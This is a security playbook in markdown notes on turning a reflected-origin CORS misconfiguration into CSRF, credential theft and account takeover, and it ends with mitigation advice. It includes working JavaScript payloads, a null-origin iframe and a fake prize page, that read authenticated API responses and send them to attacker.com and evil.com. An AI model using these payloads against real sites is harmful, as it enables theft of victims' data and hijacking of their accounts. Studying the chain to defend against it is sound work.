

# Vulnerability Chaining Playbook: CORS Misconfiguration to CSRF and Credential Theft

## 1. Executive Overview

Cross-Origin Resource Sharing (CORS) is a critical browser security mechanism designed to relax the Same-Origin Policy (SOP), allowing applications to securely request resources from different domains. However, when developers prioritize functionality over security, CORS is frequently misconfigured. 

This playbook details the exploitation chain where a relaxed CORS policy is leveraged to execute a sophisticated Cross-Site Request Forgery (CSRF) attack. Unlike traditional CSRF which is "blind" (the attacker cannot read the response), a CORS-based CSRF allows the attacker to fully read the response data, enabling the silent exfiltration of sensitive information such as API keys, CSRF tokens, PII, and credentials.

## 2. Chain Architecture

The chain relies on luring an authenticated victim to an attacker-controlled domain, which then makes cross-origin requests to the vulnerable application.

1.  **Vulnerability Discovery:** Identifying an endpoint that reflects the `Origin` header dynamically in the `Access-Control-Allow-Origin` (ACAO) header and allows credentials (`Access-Control-Allow-Credentials: true`).
2.  **Exploit Hosting:** The attacker hosts a malicious JavaScript payload on their domain.
3.  **Victim Interaction:** The authenticated victim visits the attacker's site.
4.  **Cross-Origin Request:** The malicious script makes an XHR/Fetch request to the vulnerable application.
5.  **Data Exfiltration:** The browser allows the script to read the response due to the flawed CORS policy, and the script forwards the stolen data back to the attacker.



## 3. Phase 1: Identifying CORS Misconfigurations

To exploit CORS, two specific HTTP response headers are required:
1.  `Access-Control-Allow-Origin` (ACAO): Must contain the attacker's origin, or a wildcard `*`.
2.  `Access-Control-Allow-Credentials` (ACAC): Must be set to `true`.

*Crucial Note:* The specification forbids ACAO: `*` when ACAC is `true`. Therefore, vulnerable applications dynamically read the incoming `Origin` header and reflect it in the ACAO header to bypass this restriction lazily.

### 3.1. Testing for Dynamic Reflection
Send a request with a custom origin using Burp Suite or `curl`.

**Request:**
```http
GET /api/v1/user/private-details HTTP/1.1
Host: target.com
Origin: https://evil.com
Cookie: session=valid_session_token
```

**Vulnerable Response:**
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
Content-Type: application/json

{"email": "admin@target.com", "api_key": "sk_live_9382jdh..."}
```
Because the server blindly reflected `https://evil.com`, it is vulnerable.

## 4. Phase 2: Bypassing Advanced Limitations

Sometimes applications don't reflect *any* origin, but they have flawed validation logic (e.g., regex errors).

### 4.1. Prefix/Suffix Flaws
The developer attempts to validate that the origin belongs to their company.
*   *Validation:* `if (origin.endsWith("target.com"))`
*   *Bypass:* Attacker registers `https://not-target.com` or `https://eviltarget.com`.
*   *Validation:* `if (origin.startsWith("https://target.com"))`
*   *Bypass:* Attacker registers `https://target.com.evil.com`.

### 4.2. Null Origin Bypass
Some frameworks whitelist the `null` origin (which is generated by local HTML files or `iframe` sandboxes).
*   *Bypass:* The attacker can embed their exploit inside a sandboxed iframe to force a `null` origin request.
    ```html
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
        var req = new XMLHttpRequest();
        req.open('GET', 'https://target.com/api/keys', true);
        req.withCredentials = true;
        req.onload = function() {
            fetch('https://attacker.com/log?data=' + btoa(req.responseText));
        };
        req.send();
    </script>"></iframe>
    ```

## 5. Phase 3: Forging the Exploit

Once a bypass is found, the attacker creates a malicious webpage designed to steal data.

### 5.1. The JavaScript Payload
The payload must ensure `withCredentials` is true so that the browser attaches the victim's session cookies to the cross-origin request.

```html
<!DOCTYPE html>
<html>
<head>
    <title>You Won a Prize!</title>
</head>
<body>
    <h1>Loading your prize details...</h1>
    <script>
        // 1. Initialize the cross-origin request
        var xhr = new XMLHttpRequest();
        xhr.open("GET", "https://api.target.com/v1/account/settings", true);
        
        // CRITICAL: Forces the browser to send the victim's cookies
        xhr.withCredentials = true;

        xhr.onload = function() {
            if (xhr.status === 200) {
                // 2. The CORS policy allows us to read this response
                var sensitiveData = xhr.responseText;
                
                // 3. Exfiltrate the data to the attacker's server
                var exfil = new XMLHttpRequest();
                exfil.open("POST", "https://evil.com/exfiltrate", true);
                exfil.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
                exfil.send("data=" + encodeURIComponent(sensitiveData));
            }
        };
        
        // Send the request
        xhr.send();
    </script>
</body>
</html>
```

## 6. Phase 4: Exploitation and Credential Theft

The attacker hosts the payload on `https://evil.com` and distributes the link via spear-phishing or social engineering to authenticated users of `target.com`.

### 6.1. The Exfiltration Chain
1.  Victim clicks the link while logged into their company portal.
2.  The script silently requests `/account/settings`.
3.  The response contains the user's password hash, personal email, and API tokens.
4.  The attacker receives this payload on their C2 server.

### 6.2. Escalating to Account Takeover
If the target endpoint `/account/settings` allows retrieving a CSRF token, the attacker can chain this to perform state-changing actions.
1.  Use CORS to steal the valid CSRF token.
2.  Immediately craft a secondary `POST` request using the stolen token to change the victim's password or email address.
3.  The attacker now has full, persistent control over the account.

## 7. Advanced Exploitation Scenarios

*   **Intranet Port Scanning:** CORS can be used to scan internal networks behind the victim's firewall. By making requests to `http://192.168.1.1` or `http://localhost:8080`, an attacker can use the timing of CORS failures to map internal infrastructure.
*   **WebSockets:** If WebSockets do not validate the `Origin` header during the initial HTTP handshake, Cross-Site WebSocket Hijacking (CSWSH) can occur, allowing the attacker to establish a bidirectional, authenticated tunnel to the application.

## 8. Mitigation Strategies

Proper CORS configuration is essential for modern web application security.

### 8.1. Strict Origin Allow-listing
Do not dynamically reflect the `Origin` header. Maintain a strict, hardcoded allow-list of trusted domains.

```javascript
// SECURE Node.js / Express Implementation
const allowedOrigins = ['https://www.target.com', 'https://app.target.com'];

app.use(cors({
  origin: function(origin, callback) {
    if (!origin) return callback(null, true);
    if (allowedOrigins.indexOf(origin) === -1) {
      var msg = 'The CORS policy for this site does not allow access from the specified Origin.';
      return callback(new Error(msg), false);
    }
    return callback(null, true);
  },
  credentials: true
}));
```

### 8.2. Avoid Null Origins
Never whitelist the `null` origin. It provides a false sense of security and is trivially bypassed using sandboxed iframes.

### 8.3. SameSite Cookies
Implement the `SameSite` attribute on session cookies.
*   `SameSite=Lax`: Prevents cookies from being sent on cross-origin POST requests.
*   `SameSite=Strict`: Prevents cookies from being sent on *any* cross-origin request.
This provides a strong layer of defense against CSRF, even if CORS is misconfigured, because the browser will refuse to attach the session cookie to the attacker's XHR request.

## 9. Chaining Opportunities

CORS vulnerabilities act as powerful enablers for other client-side and logic-based attacks.

*   **Pre-requisite Chains:**
    *   `[[01 - Reconnaissance]]`: Identifying API endpoints that handle sensitive data.
*   **Subsequent Chains:**
    *   `[[13 - Cross-Site Request Forgery]]`: Bypassing anti-CSRF token protections.
    *   `[[06 - IDOR PII Exfiltration Mass Account Breach]]`: Using the stolen API keys from CORS to automate IDOR exploitation from the attacker's own infrastructure.

## 10. Related Notes
*   `[[09 - Client-Side Vulnerabilities]]`
*   `[[OWASP Top 10 - Security Misconfiguration]]`
*   `[[11 - API Security Best Practices]]`
